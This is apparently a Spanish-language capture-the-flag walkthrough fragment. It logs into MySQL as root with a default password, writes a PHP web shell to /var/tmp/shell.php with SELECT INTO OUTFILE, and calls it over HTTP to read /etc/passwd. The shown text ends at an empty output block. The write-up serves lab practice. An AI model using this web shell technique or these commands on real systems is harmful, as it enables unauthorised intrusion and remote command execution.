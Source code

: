 
> Credentials `root`

```shell
#mysql
User = root
Password = password
```

### MySQL

```shell
mysql -h <IP> -u root -ppassword
```

Con esto ya estariamos dentro de `mysql`...

```mysql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

Por lo que vemos no hay ninguna base de datos creada por el usuario, por lo que haremos alguna injeccion de codigo de `mysql` con `php` de la siguiente manera...

URL = https://www.mrjamiebowman.com/hacking/command-line-mysql-for-hackers/

```mysql
SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE "/var/tmp/shell.php";
```

Con esto lo que vamos hacer es crear el archivo `shell.php` en la ubicacion `/var/tmp/` la cual ya vimos en la pagina del puerto `8080`, por lo que si nos vamos a la pagina de nuevo veremos neustro archivo `.php` en la pagina por lo que haremos lo siguiente...

```
URL = http://<IP>:8080/shell.php?cmd=cat%20/etc/passwd
```

Info:

```
```